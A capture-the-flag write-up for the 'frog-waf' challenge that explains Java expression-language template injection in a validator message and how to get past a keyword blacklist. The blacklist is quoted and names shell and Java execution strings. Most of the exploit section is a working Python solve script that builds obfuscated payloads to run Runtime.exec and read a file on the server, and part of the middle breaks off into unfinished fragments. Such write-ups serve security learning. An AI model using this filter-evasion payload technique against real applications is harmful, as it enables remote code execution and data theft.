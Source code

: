 This challenge is SSTI with Java expression language, the main difficulty is the filter bypass.

# Overview

The app is just a simple form where you submit name, contact number, country etc and validation is performed on the input.

# Foothold

After reading through the code, I notice the following in countryvalidator.java

```java:CountryValidator.java
            val message = String.format("%s is not a valid country", input);
            constraintContext.disableDefaultConstraintViolation();
            constraintContext.buildConstraintViolationWithTemplate(message)
                    .addConstraintViolation();
```

The method name `buildConstraintViolationWithTemplate` led me to believe that there might be some form of SSTI, and after a quick Google search I learned that that method will evaluate java expression language.

To test this, I submitted the form with `${7*7}` as the country. However, this is where I encountered the filter.

<Image>

Back to the code, here is the filter. Basically the app checks whether the request body contains any of the blacklisted strings, and if so returns an `AccessDeniedException`

```java:AttackTypes.java
public enum AttackTypes {
    SQLI("\"", "'", "#"),
    XSS(">", "<"),
    OS_INJECTION("bash", "&", "|", ";", "`", "~", "*"),
    CODE_INJECTION("for", "while", "goto", "if"),
    JAVA_INJECTION("Runtime", "class", "java", "char", "Process", "cmd", "eval", "Char", "true", "false"), // Name
    IDK("+", "-", "/", "*", "%", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9");

    @Getter
    private final String[] attackStrings;

    AttackTypes(String... attackStrings) {
        this.attackStrings = attackStrings;
    }

}
```

I ran the project locally (the authors were kind enough to provide the full docker configuration so I only had to run `docker build -t frogwaf` and `docker run -t frogwaf`), I removed the `IDK` attack type, and resubmitted the payload `${7*7}`. Here is the result:

<Image>

Now, I was confident that the challenge is SSTI bypass.

# Exploit

I looked up java SSTI in HackTricks. From this article <link>, I learned that I needed to run `T(java.lang.Runtime).<etc>`. Looking at the frogwaf filter, I needed a few things first.

1. a class
2. arbitrary number
3. arbitrary string

## Getting a class

We begin by getting access to a class. After testing various payloads, I found that `${[].getClass()}` successfully returned `<class java.lang.ArrayList>`. Furthermore, `${[].toString()}` gives us access to a string. I looked up the list of string methods

getMethods()
forName()

IOUtils.

Found Spring

Overall, this challenge, though very tedious, was mostly straightforward. The main difficulty came from the bugs I encountered along the way

Here is the (pretty scuffed) solve script:

```python:s.py
import requests
from string import ascii_lowercase

integer = '[].toString().length()'
one = '[].toString().length().bitCount([].toString().length())'
two = '[].toString().length()'
zero = f'{integer}.remainderUnsigned({two}, {two})'
# _36 = f'{integer}.sum([].getClass().toString().length(), [].getClass().toString().length())'

def get_large_number(n):
    if n == 0: return zero
    if n == 1: return one
    if n == 2: return two
    prev = two
    for _ in range(n//2 - 1):
        prev = f'[].toString().length().sum({prev}, {two})'
    if n % 2 == 1:
        prev = f'[].toString().length().sum({prev}, {one})'
    return prev

def get_lower_alpha(a):
    i = ascii_lowercase.index(a)
    return f'{integer}.toString({get_large_number(i + 10)}, {get_large_number(36)})'


def get_upper_alpha(a):
    return get_lower_alpha(a) + '.toUpperCase()'


def get_string(s):
    parts = []
    for c in s:
        if c == ' ':
            parts.append(f'[].getClass().toString().substring({get_large_number(5)}).substring({zero}, {one})')
        elif c == '.':
            parts.append(f'[].getClass().toString().substring({get_large_number(10)}).substring({zero}, {one})')
        elif c.isalpha() and c.islower():
            parts.append(get_lower_alpha(c))
        elif c.isalpha():
            parts.append(get_upper_alpha(c.lower()))
        else:
            Character = f'[].toString().getClass().getMethods()[{get_large_number(22)}].invoke([].toString(), {zero}).getClass()'  # charAt(int)
            parts.append(f'[].toString().valueOf({Character}.getMethods()[{get_large_number(39)}].invoke(null, {get_large_number(ord(c))}))')  # toChars(int)
    return parts[0] + '.concat(' + ').concat('.join(parts[1:]) + ')'


Runtime = f'[].getClass().getClass().getMethods()[{two}].invoke(null, {get_string("java.lang.Runtime")})'
StreamUtils = f'[].getClass().getClass().getMethods()[{two}].invoke(null, {get_string("org.springframework.util.StreamUtils")})'
Charset = f'[].getClass().getClass().getMethods()[{two}].invoke(null, {get_string("java.nio.charset.Charset")})'
code = f'{StreamUtils}.getMethods()[{get_large_number(3)}].invoke(null, {Runtime}.getMethods()[{get_large_number(6)}].invoke(null).exec({get_string("cat flag-7662fe897b3335f35ff4c3c81b9e6371.txt")}).getInputStream(), {Charset}.getMethods()[{get_large_number(13)}].invoke(null))'

print(len(code))
pay = '${' + code + '}'

resp = requests.post('http://frog-waf.chals.sekai.team/addContact', json={"firstName": "First", "lastName": "Last", "description": "Helloall", "country": pay})
# print(resp.json()['violations'][0]['message'])
print(resp.text)
```